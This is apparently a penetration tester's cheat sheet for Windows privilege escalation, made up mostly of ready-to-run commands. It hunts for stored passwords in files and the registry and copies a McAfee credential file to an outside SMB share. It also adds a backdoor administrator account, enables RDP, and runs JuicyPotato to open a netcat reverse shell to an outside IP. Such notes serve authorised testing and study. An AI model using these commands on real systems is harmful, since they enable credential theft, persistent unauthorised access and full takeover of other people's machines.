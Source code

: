 # Privilege Escalation

## Scripts

* [https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)
* [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* [https://github.com/pentestmonkey/windows-privesc-check](https://github.com/pentestmonkey/windows-privesc-check)
* [https://github.com/abatchy17/WindowsExploits](https://github.com/abatchy17/WindowsExploits)
* [windows-exploit-suggester.py](https://github.com/GDSSecurity/Windows-Exploit-Suggester.git)
* [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)
* [https://github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng)
* [https://github.com/rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)
* [https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)

## Articles

* [http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)
* [https://pentestlab.blog/2017/04/24/windows-kernel-exploits/](https://pentestlab.blog/2017/04/24/windows-kernel-exploits/)
* [https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/](https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/)
* [https://github.com/sagishahar/lpeworkshop](https://github.com/sagishahar/lpeworkshop)
* [https://blog.thehackingnomad.com/cheat-sheet-series/privesc-windows](https://blog.thehackingnomad.com/cheat-sheet-series/privesc-windows)
* [https://github.com/C0nd4/OSCP-Priv-Esc#windows-privilege-escalation-mind-map](https://github.com/C0nd4/OSCP-Priv-Esc#windows-privilege-escalation-mind-map)

## Manual Enumeration

```
# Current user and hostname
whoami
whoami /all
net user <user>
hostname

# Existing users
net user
wmic useraccount list full

# OS version & architecture
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

### Check C:\Windows\System32\ntdll.dll version
http://www.geoffchappell.com/studies/windows/win32/ntdll/history/index.htm

# Processes & services
tasklist /SVC
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
reg query "HKLM\SYSTEM\CurrentControlSet\Services"
sc query state= all

# Networking info
ipconfig /all
route print
netstat -ano

# Firewall
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all

# Scheduled tasks
schtasks /query /fo LIST /v

wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows"

### Create scheduled task
schtasks /create /sc minute /mo 1 /tn "my_task" /tr "COMMAND" /ru "SYSTEM"

### Check what a is doing a scheduled task
schtasks /query /FO LIST /v
type C:\Windows\Tasks\...

# Installed applications & patch level
wmic product get name,version,vendor
wmic qfe get Caption,Description,HotFixID,InstalledOn

# Check for readable/writable files & directories
# leverage accesschk.exe from sysinternals
accesschk.exe -uws "Everyone" "C:\Program Files"
# powershell version
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}

# Enumerate unmounted disks
mountvol

# List device drivers & kernel modules
# powershell
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
# list non-windows drivers, using with sigcheck.exe
driverquery.exe /v /fo csv | ConvertFrom-CSV | ForEach-Object {.\sigcheck.exe -c -nobanner $_.Path | ConvertFrom-CSV -Delimiter ',' | select-object path,publisher,verified | Where-Object {$_.Publisher -ne "Microsoft Windows"}}

# Check binaries that autoelevate
# check status of AlwaysInstallElevated setting. If enabled, any user can run MSI packages with elevated privileges.
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
# check binary manifest using sigcheck from SysInternalsSuite
sigcheck.exe -a -m <full_binary_path>

# Check binary permissions
icacls <full_binary_path>

# Search for interesting files
dir /b /s .
dir /b /s c:\*.txt
dir /b /s *pass*
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
findstr /si password *.txt 
findstr /si password *.txt *.xml *.ini *.config
findstr /spin "password" *.*
dir /b /s Services.xml == ScheduledTasks.xml == Printers.xml == Drives.xml == DataSources.xml
findstr /si password file.xml
dir /s C:\Users

c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

C:\inetpub\wwwroot\web.config

dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini

#on target
#search for file SiteList.xml
dir /s/b SiteList.xml
#copy file to kali (after setting up impacket-smbserver)
cp "C:\Users\All Users\McAfee\Common Framework\SiteList.xml" //192.168.194.141/share/tmp

#on kali
#grep encrypted password
grep -i password SiteList.xml
#decrypt password 
python mcafee_sitelist_pwd_decrypt.py [encryptedpassw]

# Check registry entries
# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUsername 
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword

# SNMP Parameters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
	#NOTE: if you get redirected, use that redirect 
	reg query "HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\BWP123F42"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s


```

## Create Admin User

```
net user slysandwich slysandwich /add
net localgroup administrators slysandwich /add
```

## Enable RDP

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## Exploits

* JuicyPotato (Server 2008 R2, 2012, 2012 R2, 2016)
* PrintSpoofer
* RogueWinRM
* RoguePotato

### JuicyPotato

* Verify system version and architecture

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

* Upload the correct executable of JuicyPotato and Netcat to the target
* Launch the exploit:

```
.\juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -a "/c C:\path\to\nc.exe -e cmd.exe 192.168.119.152 80" -c {69AD4AEE-51BE-439b-A92C-86AE490E8B30}
```
